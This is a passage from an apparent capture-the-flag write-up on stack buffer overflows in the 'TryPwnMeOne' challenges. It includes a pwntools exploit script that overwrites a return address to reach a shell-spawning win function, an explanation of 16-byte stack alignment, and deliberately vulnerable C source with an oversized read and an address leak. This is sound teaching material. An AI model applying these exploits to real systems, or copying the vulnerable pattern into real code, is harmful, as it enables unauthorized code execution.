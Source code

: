 ### Stack Allignment

Examining the code, you may wonder why we include a `ret` instruction before jumping to the `win` function. This is necessary for stack alignment.

You can read more about stack alignment [here](https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming/stack-alignment).

To understand the need for the `ret` instruction for proper stack alignment, you can run the following code, which does not include it:

```python
#!/usr/bin/env python3

from pwn import *

context.update(os="linux", arch="amd64", log_level="error")
context.binary = binary = ELF(
    "./materials-TryPwnMeOne/TryRetMe/tryretme", checksec=False
)

r = process()
gdb.attach(r)

win_function_address = binary.symbols["win"]

payload = b"A" * 256                    # offset to the RBP
payload += b"B" * 8                     # overwrite the RBP
payload += p64(win_function_address)    # address of the win function

r.recvuntil(b"Return to where? : \n")
r.sendline(payload)
r.recvuntil(b"ok, let's go!\n\n")
r.interactive()
```

As observed, the program crashes when attempting to spawn a shell upon reaching the `movaps` instruction, which utilizes 16-byte `xmm` registers while the stack is not 16-byte aligned (`0x7ffc7e10b478 % 16 = 8`).

![Task 6 Crash](task_6_crash.webp){: width="700" height="200" }

## Random Memories

For `Random Memories`, the provided code is as follows:

```c
int win(){
    system("/bin/sh\0");
}

void vuln(){
    char *buf[0x20];
    printf("I can give you a secret %llx\n", &vuln);
    puts("Where are we going? : ");
    read(0, buf, 0x200);
    puts("\nok, let's go!\n");
}

int main(){
    setup();
    banner();
    vuln();
}
```
